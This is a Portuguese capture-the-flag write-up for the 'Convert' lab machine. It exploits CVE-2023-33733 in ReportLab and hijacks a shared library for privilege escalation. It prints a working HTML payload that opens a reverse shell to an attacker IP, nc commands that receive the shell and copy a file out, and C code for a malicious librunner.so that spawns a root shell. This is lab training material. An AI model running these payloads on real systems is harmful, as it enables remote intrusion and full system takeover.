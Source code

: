```yaml
---
title: 'Convert Writeup'
date: '2024-11-17'
tags: ['CVE-2023-33733', 'RCE', 'Linux']
draft: false
summary: 'Aplicação possui vulnerabilidades de execução remota de código (RCE) na biblioteca ReportLab e elevação de privilégios via "Shared Library Hijacking".'
images: ['/static/images/convert-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/convert-writeup-images/default.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Convert

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 60:fc:05:85:35:18:5c:83:ff:aa:85:48:9b:6b:68:80 (ECDSA)
|_  256 4e:88:0d:b1:27:e3:b4:9a:80:93:48:a0:d5:56:d7:2b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Convert HTML to PDF Online
| http-methods:
|_  Supported Methods: OPTIONS GET POST HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

---

## Enumeration

`http://172.16.9.251`

Uma aplicação chamada Convert, que possui a funcionalidade de converter arquivos **HTML** para **PDF**.

![convert](/static/images/convert-writeup-images/image.png)

A aplicação possui um bloqueio, permitindo somente arquivos HTML sejam submetidos, tentei bypassar o filtro mas não obtive sucesso.

![convert 1](/static/images/convert-writeup-images/image1.png)

Após submeter um arquivo html qualquer, a aplicação converte para PDF.

Depois de converter, podemos identificar com a ferramenta `exiftool` qual foi a ferramenta/biblioteca utilizada para realizar a conversão.

![convert 2](/static/images/convert-writeup-images/image2.png)

Com o nome do produtor em mãos, podemos verificar que existe uma CVE relacionada.

![convert 3](/static/images/convert-writeup-images/image3.png)

Para explorar `CVE-2023-33733` vamos mandar um arquivo `.html` malicioso, que vai nos gerar um RCE.

https://github.com/c53elyas/CVE-2023-33733

---

## Foot Hold

`evil.html`

```jsx
<para>
  <font color="[[[getattr(pow, Word('__globals__'))['os'].system('/bin/bash -c \'sh -i >& /dev/tcp/10.0.31.150/1337 0>&1\'') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
  </font>
</para>
```

![convert 4](/static/images/convert-writeup-images/image4.png)

`nc -lnvp 1337`

![convert 5](/static/images/convert-writeup-images/image5.png)

---

## Privillege Escalation

`find / -perm -u=s 2>/dev/null`

![convert 6](/static/images/convert-writeup-images/image6.png)

Ao acessar o diretório `binary` e executar o arquivo `ucount` que está como `SUID`, percebemos que ele retorna a contagem dos usuários do sistema.

![convert 7](/static/images/convert-writeup-images/image7.png)

Utilizando o comando strace , podemos confirmar que o arquivo está utilizando a biblioteca `librunner.so` , que está dentro do diretório `functions`

![convert 8](/static/images/convert-writeup-images/image8.png)

Com isso, a gente pode utilizar um técnica de Privillege Escalation conhecida como **Shared Library Hijacking**, criando nossa propria [`l](http://lbrunner.so)ibrunner.so`para ser executada pelo`SUID` `ucount`.

Entretanto, nós não temos permissão de alterar a `librunner.so` diretamente, pois não temos permissão, mas o arquivo está na pasta do nosso usuário (flaskuser), e nela podemos alterar.

```python
mv binary/ binary2
mkdir -p binary/functions
```

![convert 9](/static/images/convert-writeup-images/image9.png)

Agora, iremos criar a nossa lib maliciosa para jogarmos dentro do da pasta que criamos.

Pra isso, vamos mandar o `librunner.so` original para a nossa maquina e analisar melhor.

```python
#maquina atacante
nc -lnvp 1234 > librunner.so
#maquina alvo
nc 10.0.31.150 1234 < librunner.so
```

![convert 10](/static/images/convert-writeup-images/image10.png)

![convert 11](/static/images/convert-writeup-images/image11.png)

Abrindo o arquivo no **Ghidra**, vemos que tem uma função chamada `isRoot` e é ela que vamos utilizar pra ganhar root no sistema.

Edit: Foi mal galera, a print saiu cortada 😄

![convert 12](/static/images/convert-writeup-images/image12.png)

```C
#include <stdlib.h>
#include <unistd.h>

void isRoot() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}

void lineCounter() {
}

```

`gcc -shared -fPIC -nostartfiles -o librunner.so librunner.c`

![convert 13](/static/images/convert-writeup-images/image13.png)

Agora só executar o SUID, que está localizado no diretório que criamos (binary2)

![convert 14](/static/images/convert-writeup-images/image14.png)

---

## Proof

![convert 15](/static/images/convert-writeup-images/image15.png)
